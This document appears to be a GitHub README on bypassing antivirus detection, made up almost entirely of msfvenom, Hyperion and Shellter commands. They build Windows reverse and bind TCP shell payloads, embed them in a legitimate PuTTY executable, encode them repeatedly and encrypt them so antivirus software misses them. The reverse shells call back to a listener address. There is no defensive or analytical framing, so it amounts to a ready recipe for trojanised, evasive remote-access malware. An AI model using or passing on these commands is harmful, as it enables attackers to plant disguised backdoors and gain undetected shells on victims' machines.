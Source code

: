 # :christmas_tree: Bypassing Antivirus Payload Detection:

<img width="704" alt="Screen Shot 2021-12-03 at 5 21 54 PM" src="https://user-images.githubusercontent.com/72598486/144680706-d3b91529-e530-4dcf-b0b9-50a0c94413d2.png">


# MSFvenom reverse stageless shells 
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -f exe-only -k -x /root/payloads/putty_x86.exe -o /root/payloads/msfvenom/msfv_reverse_putty_x86.exe - e x86/shikata_ga_nai -i 20 LHOST=192.168.40.128 LPORT=55555 
msfvenom -a x64 --platform windows -p windows/x64/shell_reverse_tcp -f exe-only -k - x /root/payloads/putty_x64.exe -o /root/payloads/msfvenom/msfv_reverse_putty_x64.exe -e x64/xor -i 20 LHOST=192.168.40.128 LPORT=55555 
```
# MSFVenom bind stageless shell 
```bash
msfvenom -a x86 --platform windows -p windows/shell_bind_tcp -f exe-only -k -x /root/payloads/putty_x86.exe -o /root/payloads/msfvenom/msfv_bind_putty_x86.exe -e x86/shikata_ga_nai -i 20 RHOST=0.0.0.0 LPORT=55555 
msfvenom -a x64 --platform windows -p windows/x64/shell_bind_tcp -f exe-only -k -x /root/payloads/putty_x64.exe -o /root/payloads/msfvenom/msfv_bind_putty_x64.exe -e x64/xor -i 20 RHOST=0.0.0.0 LPORT=55555 
```
# Hyperion 2.31 x64 Payload Generating Strings 
```bash
wine hyperion.exe /root/payloads/msfvenom/msfv_reverse_putty_x64.exe /root/payloads/hyperion/hyperion_reverse_putty_x64.exe 
wine hyperion.exe /root/payloads/msfvenom/msfv_bind_putty_x64.exe /root/payloads/hyperion/hyperion_bind_putty_x64.exe 
```
# Hyperion 2.2 x86 Payload Generating Strings 
```bash
wine hyperion.exe /root/payloads/msfvenom/msfv_reverse_putty_x86.exe /root/payloads/hyperion/hyperion_reverse_putty_x86.exe 
wine hyperion.exe /root/payloads/msfvenom/msfv_bind_putty_x86.exe /root/payloads/hyperion/hyperion_bind_putty_x86.exe 
```
# MSFVenom RAW Shellter Payload Generating Strings with only x86 supported 
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -f raw -o /root/payloads/shellter/shellter_reverse_x86.raw -e x86/shikata_ga_nai -i 20 LHOST=192.168.40.128 LPORT=55555 
msfvenom -a x86 --platform windows -p windows/shell_bind_tcp -f raw -o /root/payloads/shellter/shellter_bind_x86.raw -e x86/shikata_ga_nai -i 20 RHOST=0.0.0.0 LPORT=55555 
```
# Hyperion 2.2 x86 encrypt a Shellter payload 
```bash
wine hyperion.exe /root/payloads/shellter/shellter_putty_bind_x86.exe /root/payloads/hyperion/hyperion_shellter_bind_putty_x86.exe 
wine hyperion.exe /root/payloads/shellter/shellter_putty_reverse_x86.exe /root/payloads/hyperion/hyperion_shellter_reverse_putty_x86.exe 
```
